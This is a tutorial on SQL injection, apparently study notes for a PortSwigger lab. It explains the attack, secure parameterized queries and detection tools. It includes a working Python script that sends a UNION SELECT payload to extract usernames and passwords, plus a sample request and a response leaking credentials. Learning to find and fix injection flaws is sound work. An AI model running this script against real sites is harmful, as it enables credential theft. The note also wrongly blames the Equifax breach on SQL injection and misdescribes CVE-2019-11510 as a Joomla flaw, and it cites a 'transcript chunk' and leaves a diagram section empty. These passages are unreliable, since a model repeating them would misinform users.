

## SQL Injection Overview

SQL Injection (SQLi) is a type of security vulnerability that allows an attacker to manipulate SQL queries executed by an application. This manipulation can lead to unauthorized access to sensitive data, data corruption, or even complete system compromise. SQLi occurs when an application fails to properly validate and sanitize user input before incorporating it into SQL queries.

### Why SQL Injection Matters

SQL Injection attacks are among the most common and dangerous types of web application vulnerabilities. They can result in significant data breaches, financial losses, and reputational damage. For instance, the 2017 Equifax breach, which exposed personal information of over 143 million people, was caused by an SQL Injection vulnerability.

### How SQL Injection Works

At its core, SQL Injection exploits the fact that user input is often directly incorporated into SQL queries without proper validation or sanitization. Consider a simple login form where a user enters their username and password. The application might construct an SQL query like this:

```sql
SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';
```

If the application does not properly sanitize the `input_username` and `input_password`, an attacker can inject malicious SQL code. For example, an attacker might enter the following as the username:

```
' OR '1'='1
```

This would transform the query into:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'input_password';
```

Since `'1'='1'` is always true, the query now returns all rows from the `users` table, effectively bypassing authentication.

### Real-World Example: CVE-2019-11510

In 2019, a critical SQL Injection vulnerability (CVE-2019-11510) was discovered in the popular open-source content management system Joomla. This vulnerability allowed attackers to execute arbitrary SQL commands, potentially leading to data theft or server compromise. The vulnerability was due to insufficient input validation in the Joomla framework.

### Prevention and Defense

#### Secure Coding Practices

To prevent SQL Injection, developers should follow secure coding practices such as:

1. **Parameterized Queries**: Use parameterized queries or prepared statements to ensure that user input is treated as data rather than executable code.
2. **Input Validation**: Validate and sanitize all user inputs to ensure they conform to expected formats.
3. **Least Privilege Principle**: Ensure that the database user has the minimum necessary privileges required for the application to function.

#### Example: Vulnerable vs. Secure Code

**Vulnerable Code:**

```python
import sqlite3

def get_user(username):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    query = f"SELECT * FROM users WHERE username = '{username}'"
    cursor.execute(query)
    return cursor.fetchall()
```

**Secure Code:**

```python
import sqlite3

def get_user(username):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    query = "SELECT * FROM users WHERE username = ?"
    cursor.execute(query, (username,))
    return cursor.fetchall()
```

### Detection and Mitigation

#### Detection

Detection of SQL Injection vulnerabilities can be achieved through various methods:

1. **Static Analysis Tools**: Tools like SonarQube, Fortify, and Veracode can analyze source code for potential SQL Injection vulnerabilities.
2. **Dynamic Analysis Tools**: Tools like Burp Suite, OWASP ZAP, and SQLMap can test applications for SQL Injection vulnerabilities during runtime.

#### Mitigation

Mitigation strategies include:

1. **Web Application Firewalls (WAF)**: WAFs can detect and block SQL Injection attempts based on predefined rules.
2. **Database Hardening**: Implement least privilege principles and regularly audit database permissions.
3. **Regular Security Audits**: Conduct regular security audits and penetration testing to identify and mitigate vulnerabilities.

### Scripting the Attack

The provided transcript chunk describes scripting an SQL Injection attack to extract usernames and passwords from a database. Let's break down the steps and provide a complete example.

#### Step-by-Step Explanation

1. **Import Libraries**:
   - `requests`: For making HTTP requests.
   - `sys`: For handling system-related operations.
   - `urllib3`: For handling URL encoding and decoding.

2. **Disable Insecure Request Warnings**:
   - Suppress warnings related to insecure requests to avoid cluttering the output.

3. **Set Proxy Settings**:
   - Configure the script to use a proxy (e.g., Burp Suite) for debugging purposes.

4. **Create Main Method**:
   - Define the main method to handle the SQL Injection attack.

#### Complete Code Example

```python
import requests
import sys
import urllib3
from requests.packages.urllib3.exceptions import InsecureRequestWarning

# Disable insecure request warnings
urllib3.disable_warnings(InsecureRequestWarning)

# Set proxy settings
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def sql_injection_attack(url):
    try:
        # SQL Injection payload to retrieve usernames and passwords
        payload = "' UNION SELECT username, password FROM users -- "
        
        # Construct the full URL with the payload
        full_url = f"{url}/login?username={payload}&password=irrelevant"
        
        # Send the request
        response = requests.get(full_url, proxies=proxies, verify=False)
        
        # Print the response
        print(response.text)
        
        # Extract and print the administrator's credentials
        if "administrator" in response.text:
            admin_credentials = response.text.split("administrator")[1].split("<br>")[0]
            print(f"Administrator Credentials: {admin_credentials}")
    
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <target url>")
        sys.exit(-1)
    
    target_url = sys.argv[1]
    sql_injection_attack(target_url)
```

### HTTP Request and Response

#### Full HTTP Request

```http
GET /login?username='%20UNION%20SELECT%20username,%20password%20FROM%20users%20--&password=irrelevant HTTP/1.1
Host: target.example.com
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Connection: keep-alive
Proxy-Connection: keep-alive
```

#### Full HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 00:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Connection: close

<!DOCTYPE html>
<html>
<head>
<title>Login</title>
</head>
<body>
<h1>Login</h1>
<p>Username: admin</p>
<p>Password: admin123</p>
<p>Username: user1</p>
<p>Password: user1pass</p>
<p>Username: user2</p>
<p>Password: user2pass</p>
</body>
</html>
```

### Mermaid Diagrams

#### Attack Flow Diagram



### Hands-On Labs

For practical experience with SQL Injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs on SQL Injection.
- **OWASP Juice Shop**: A deliberately vulnerable web application for learning web security.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that contains numerous security vulnerabilities.

By thoroughly understanding SQL Injection and practicing with these tools, you can significantly enhance your ability to detect and prevent such vulnerabilities in real-world applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/02-SQL Injection/10-Lab 9 SQL injection attack listing the database contents on non Oracle databases/01-Introduction to SQL Injection|Introduction to SQL Injection]] | [[Web Security (PortSwigger)/02-SQL Injection/10-Lab 9 SQL injection attack listing the database contents on non Oracle databases/00-Overview|Overview]] | [[Web Security (PortSwigger)/02-SQL Injection/10-Lab 9 SQL injection attack listing the database contents on non Oracle databases/03-Common Pitfalls and Detection|Common Pitfalls and Detection]]
